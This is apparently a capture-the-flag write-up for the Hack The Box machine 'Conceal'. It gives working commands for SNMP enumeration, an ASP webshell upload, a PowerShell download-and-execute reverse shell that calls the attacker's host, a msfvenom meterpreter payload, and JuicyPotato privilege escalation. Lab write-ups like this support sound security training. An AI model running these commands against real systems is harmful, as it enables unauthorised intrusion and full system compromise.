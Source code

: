 # [Conceal](https://app.hackthebox.com/machines/conceal)

```bash
nmap -p- -sU --min-rate 5000 10.10.10.116 -Pn
```

![Alt text](img/image.png)


Let's look at SNMP to find secrets via `snmpwalk` command.
```bash
snmpwalk -v 2c -c public 10.10.10.116
```

![Alt text](img/image-1.png)


I grab hash from here, and paste into [Crackstation](https://crackstation.net/)

HASH: 9C8B1A372B1878851BE2C097031B6E43

![Alt text](img/image-2.png)


Now, I need to configure IPSEC VPN between target and my machine.

Here's file '/etc/ipsec.conf'.

![Alt text](img/image-3.png)


Here's '/etc/ipsec.secrets'.

![Alt text](img/image-4.png)

Then, I restart and configuration goes into place.

```bash
ipsec restart
ipsec up conceal
```


Now, let's do `nmap` enumeration.

```bash
nmap -p- -sT --min-rate 10000 10.10.10.116 -Pn
```

![Alt text](img/image-5.png)


Let's do directory enumeration.

```bash
gobuster dir -u http://10.10.10.116 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,aspx,asp,html   
```

![Alt text](img/image-6.png)


Also, I enumerate FTP service and see that this FTP service is served through HTTP service.

![Alt text](img/image-7.png)


note.txt file can be seen.

![Alt text](img/image-8.png)


I tried so many web shell payloads by uploading into here, but `.asp` file can be seen.

I take a webshell from [here](https://github.com/tennc/webshell/blob/master/asp/webshell.asp).

![Alt text](img/image-9.png)


I can read user.txt means proof.txt from here by doing `dir` commands.

proof.txt

![Alt text](img/image-10.png)


I added my reverse shell script into 'Invoke-PowerShellTcp.ps1'.
```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.6 -Port 1337" >> Invoke-PowerShellTcp.ps1
```

![Alt text](img/image-11.png)


1.Then, I open HTTP server to serve this script.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```

![Alt text](img/image-12.png)

2.Then, on my webshell, I execute this script.
```bash
powershell iex(New-Object Net.Webclient).downloadstring('http://10.10.16.6:8080/Invoke-PowerShellTcp.ps1')
```

![Alt text](img/image-13.png)



I got reverse shell from port (1337)..

![Alt text](img/image-14.png)


I looked at privileges of this user via `whoami /priv` command.

![Alt text](img/image-15.png)


I see that `SeImpersonatePrivilege` is enabled, let's abuse this.

1.First, I need to create malicious `.exe` file.
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.6 LPORT=1338 --arch x64 -f exe > dr4ks.exe
```
![Alt text](img/image-16.png)

2.Then, I open http server.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```
![Alt text](img/image-18.png)

3.Then, download this files via `wget` command.
```bash
wget http://10.10.16.6:8080/JuicyPotato.exe -outfile JuicyPotato.exe
wget http://10.10.16.6:8080/dr4ks.exe -outfile dr4ks.exe
```

![Alt text](img/image-17.png)


Let's execute the payload as below.

```bash
./JuicyPotato.exe -l 1338 -p dr4ks.exe -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

![Alt text](img/image-19.png)

I got reverse shell from port (1338).

![Alt text](img/image-20.png)


root.txt

![Alt text](img/image-21.png)
